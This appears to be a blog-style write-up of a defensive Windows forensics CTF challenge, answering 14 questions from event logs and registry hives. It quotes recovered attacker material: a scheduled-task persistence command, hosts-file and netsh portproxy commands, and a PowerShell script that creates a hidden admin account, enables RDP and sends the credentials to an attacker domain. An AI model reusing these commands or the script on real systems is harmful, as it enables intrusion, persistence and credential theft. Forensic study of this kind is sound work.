




# Holmes CTF 2025 - The Enduring Echo

## Challenge Information

**Challenge Name:** The Enduring Echo  
**Difficulty:** Easy  
**Category:** Windows Forensics / Event Log Analysis  
**Event:** Holmes CTF 2025 - HackTheBox's First All-Blue CTF

## Description

LeStrade passes a disk image artifacts to Watson. It's one of the identified breach points, now showing abnormal CPU activity and anomalies in process logs.

## Artifacts Provided

- `The_Enduring_Echo.zip` containing:
  - `2025-08-25T20_20_59_5246365_ConsoleLog.txt`
  - `2025-08-25T20_20_59_5246365_CopyLog.csv`
  - `2025-08-25T20_20_59_5246365_SkipLog.csv`
  - `C\` directory (disk image artifacts)

## Tools Used

- Windows Event Viewer (Windows 10 OS)
- Registry Explorer (Eric Zimmerman tool)
- MITRE ATT&CK Framework

---

## Walkthrough

### Question 1: First Command Executed

**Task:** What was the first (non cd) command executed by the attacker on the host?

**Solution:**

I navigated to the `.evtx` files in the C drive, specifically to `Security.evtx`. I filtered events with ID 4688 (process creation events) and ordered them chronologically to find the first command the attacker executed.

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4688</EventID>
    <TimeCreated SystemTime="2025-08-24T22:51:09.2617611Z" />
    <EventRecordID>4289</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="SubjectUserName">Werni</Data>
    <Data Name="SubjectDomainName">HEISEN-9-WS-6</Data>
    <Data Name="NewProcessId">0x13e0</Data>
    <Data Name="NewProcessName">C:\Windows\System32\systeminfo.exe</Data>
    <Data Name="ProcessId">0x1300</Data>
    <Data Name="CommandLine">systeminfo</Data>
    <Data Name="ParentProcessName">C:\Windows\System32\cmd.exe</Data>
  </EventData>
</Event>
```

**Flag:** `systeminfo`

---

### Question 2: Parent Process Path

**Task:** Which parent process (full path) spawned the attacker's commands?

**Solution:**

Looking at the events right before the `systeminfo` execution, I found the parent process that spawned the command.

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4688</EventID>
    <TimeCreated SystemTime="2025-08-24T22:51:09.1827347Z" />
    <EventRecordID>4287</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="SubjectUserSid">S-1-5-20</Data>
    <Data Name="SubjectUserName">HEISEN-9-WS-6$</Data>
    <Data Name="SubjectDomainName">WORKGROUP</Data>
    <Data Name="NewProcessId">0x1300</Data>
    <Data Name="NewProcessName">C:\Windows\System32\cmd.exe</Data>
    <Data Name="ProcessId">0xf34</Data>
    <Data Name="CommandLine">cmd.exe /Q /c systeminfo 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1</Data>
    <Data Name="TargetUserName">Werni</Data>
    <Data Name="TargetDomainName">HEISEN-9-WS-6</Data>
    <Data Name="ParentProcessName">C:\Windows\System32\wbem\WmiPrvSE.exe</Data>
  </EventData>
</Event>
```

**Flag:** `C:\Windows\System32\wbem\WmiPrvSE.exe`

---

### Question 3: Remote Execution Tool

**Task:** Which remote-execution tool was most likely used for the attack?

**Solution:**

Based on the parent process (`WmiPrvSE.exe`) and the command execution pattern observed in Question 2, this points to WMI-based remote execution. The specific pattern of command execution and output redirection to `ADMIN$` share is characteristic of Impacket's `wmiexec.py` tool.

**Flag:** `wmiexec.py`

---

### Question 4: Attacker's IP Address

**Task:** What was the attacker's IP address?

**Solution:**

To find the attacker's IP address, I filtered events with ID 4624 (successful logon events) and searched for events close to the time of the initial attack (around `2025-08-24T22:51:09`).

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4624</EventID>
    <TimeCreated SystemTime="2025-08-24T22:52:58.0949108Z" />
    <EventRecordID>4309</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="SubjectUserSid">S-1-0-0</Data>
    <Data Name="TargetUserSid">S-1-5-21-3871582759-1638593395-315824688-1002</Data>
    <Data Name="TargetUserName">Werni</Data>
    <Data Name="TargetDomainName">HEISEN-9-WS-6</Data>
    <Data Name="LogonType">3</Data>
    <Data Name="LogonProcessName">NtLmSsp</Data>
    <Data Name="AuthenticationPackageName">NTLM</Data>
    <Data Name="LmPackageName">NTLM V2</Data>
    <Data Name="IpAddress">10.129.242.110</Data>
    <Data Name="IpPort">37928</Data>
  </EventData>
</Event>
```

**Flag:** `10.129.242.110`

---

### Question 5: First Persistence Mechanism

**Task:** What is the first element in the attacker's sequence of persistence mechanisms?

**Solution:**

I searched for `schtasks` (scheduled task creation) in Security.evtx, starting from the initial attack timestamp.

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4688</EventID>
    <TimeCreated SystemTime="2025-08-24T23:03:50.2566689Z" />
    <EventRecordID>4452</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="SubjectUserName">HEISEN-9-WS-6$</Data>
    <Data Name="NewProcessName">C:\Windows\System32\cmd.exe</Data>
    <Data Name="CommandLine">cmd.exe /Q /c schtasks /create /tn "SysHelper Update" /tr "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Werni\Appdata\Local\JM.ps1" /sc minute /mo 2 /ru SYSTEM /f 1> \\127.0.0.1\ADMIN$\__1756076432.886685 2>&1</Data>
    <Data Name="TargetUserName">Werni</Data>
    <Data Name="ParentProcessName">C:\Windows\System32\wbem\WmiPrvSE.exe</Data>
  </EventData>
</Event>
```

**Flag:** `SysHelper Update`

---

### Question 6: Persistence Script Path

**Task:** Identify the script executed by the persistence mechanism.

**Solution:**

From the same scheduled task creation event in Question 5, the script path is visible in the command line: `C:\Users\Werni\Appdata\Local\JM.ps1`

**Flag:** `C:\Users\Werni\AppData\Local\JM.ps1`

---

### Question 7: Created Local Account

**Task:** What local account did the attacker create?

**Solution:**

I filtered Security.evtx for Event ID 4720 (user account created). Only five events appeared in total:



The only event occurring after the attack began (`2025-08-24T22:51:09`) was:

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4720</EventID>
    <TimeCreated SystemTime="2025-08-24T23:05:09.7646587Z" />
    <EventRecordID>4461</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="TargetUserName">svc_netupd</Data>
    <Data Name="TargetDomainName">HEISEN-9-WS-6</Data>
    <Data Name="TargetSid">S-1-5-21-3871582759-1638593395-315824688-1003</Data>
    <Data Name="SubjectUserName">HEISEN-9-WS-6$</Data>
    <Data Name="SamAccountName">svc_netupd</Data>
  </EventData>
</Event>
```

**Flag:** `svc_netupd`

---

### Question 8: Exfiltration Domain

**Task:** What domain name did the attacker use for credential exfiltration?

**Solution:**

I searched for the attacker's IP address in Security logs and found an event showing the attacker modifying the hosts file.

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4688</EventID>
    <TimeCreated SystemTime="2025-08-24T23:00:15.2002604Z" />
    <EventRecordID>4414</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="SubjectUserName">HEISEN-9-WS-6$</Data>
    <Data Name="NewProcessName">C:\Windows\System32\cmd.exe</Data>
    <Data Name="CommandLine">cmd.exe /Q /c cmd /C "echo 10.129.242.110 NapoleonsBlackPearl.htb >> C:\Windows\System32\drivers\etc\hosts" 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1</Data>
    <Data Name="TargetUserName">Werni</Data>
    <Data Name="ParentProcessName">C:\Windows\System32\wbem\WmiPrvSE.exe</Data>
  </EventData>
</Event>
```

**Flag:** `NapoleonsBlackPearl.htb`

---

### Question 9: Generated Password

**Task:** What password did the attacker's script generate for the newly created user?

**Solution:**

This question gave me a hard time and required multiple steps. First, I found the `JM.ps1` script in the filesystem at `C:\Users\Werni\AppData\Local\JM.ps1`:

```powershell
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

The script shows the password format: `Watson_$timestamp` where timestamp is in `yyyyMMddHHmmss` format.

From Question 7, I knew the user was created at `2025-08-24T23:05:09.7646587Z` (UTC), but I needed to find the actual local time when the script executed.

To do this, I installed Registry Explorer (Eric Zimmerman tool) from https://ericzimmerman.github.io/#!index.md and examined the timezone information at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TimeZoneInformation` in `C:\Windows\System32\config\SYSTEM`:



Key values found:
- **TimeZoneKeyName:** Pacific Standard Time
- **Bias:** -480 minutes = -8 hours → UTC-8
- **ActiveTimeBias:** +420 minutes = +7 hours → UTC-7
- **DaylightBias:** -60 minutes

After doing the calculations:
- Base offset (Bias): -480 minutes = -8 hours → UTC-8
- Active offset during event time (August): +420 minutes = +7 hours → UTC-7
- **Conclusion:** System was in Pacific Daylight Time (PDT) = UTC-7

Therefore:
- UTC time: `2025-08-24T23:05:09`
- Local time: `2025-08-24T16:05:09` (subtract 7 hours)
- Password format: `Watson_20250824160509`

**Flag:** `Watson_20250824160509`

---

### Question 10: Pivot Target IP

**Task:** What was the IP address of the internal system the attacker pivoted to?

**Solution:**

I searched for `listenport` in Security logs after the attack began, hoping to find port forwarding activity.

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4688</EventID>
    <TimeCreated SystemTime="2025-08-24T23:10:05.7722485Z" />
    <EventRecordID>4520</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="SubjectUserName">Werni</Data>
    <Data Name="SubjectDomainName">HEISEN-9-WS-6</Data>
    <Data Name="NewProcessName">C:\Windows\System32\netsh.exe</Data>
    <Data Name="CommandLine">netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=192.168.1.101 connectport=22</Data>
    <Data Name="ParentProcessName">C:\Windows\System32\cmd.exe</Data>
  </EventData>
</Event>
```

**Flag:** `192.168.1.101`

---

### Question 11: Forwarded Port

**Task:** Which TCP port on the victim was forwarded to enable the pivot?

**Solution:**

From the same `netsh` command in Question 10, the forwarded port is clearly visible: `listenport=9999`

**Flag:** `9999`

---

### Question 12: Registry Path for Port Proxy

**Task:** What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings?

**Solution:**

I researched "netsh portproxy registry location" online and found this Splunk research article: https://research.splunk.com/endpoint/0270455b-1385-4579-9ac5-e77046c508ae/

I then confirmed the path by examining the SYSTEM hive with Registry Explorer:



**Flag:** `HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp`

---

### Question 13: MITRE ATT&CK Technique

**Task:** What is the MITRE ATT&CK ID associated with the previous technique used by the attacker to pivot to the internal system?

**Solution:**

I used the MITRE ATT&CK website (https://attack.mitre.org/) and searched for port proxy techniques under Command and Control.



The technique is classified under:
- **Tactic:** Command and Control
- **Technique:** Proxy
- **Sub-technique:** Internal Proxy

**Flag:** `T1090.001`

---

### Question 14: Audit Configuration Command

**Task:** Before the attack, the administrator configured Windows to capture command line details in the event logs. What command did they run to achieve this?

**Solution:**

I actually found the answer way before when exploring the filesystem at `C:\Users\Werni\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline` in the `ConsoleHost_history` file:


```
ls
hostname
ping 8.8.8.8
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
ping 8.8.8.8
```

**Flag:** `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f`

---

## Final Thoughts

This challenge was definitely not easy for me, at least not as easy as The Card. However, I learned a lot about Windows Event Viewer, key process IDs, and registry hive exploration with Registry Explorer.

The timezone conversion part (Question 9) was particularly tricky - having to correlate the UTC timestamp from the event logs with the system's local timezone configuration in the registry added an interesting layer of complexity that I hadn't encountered before.

Key takeaways:
- Event ID 4688 is crucial for tracking process creation and command execution
- Event ID 4624 helps identify logon events and source IP addresses
- Event ID 4720 tracks user account creation
- Registry analysis is essential for understanding system configuration
- PowerShell history files can reveal administrator actions

---
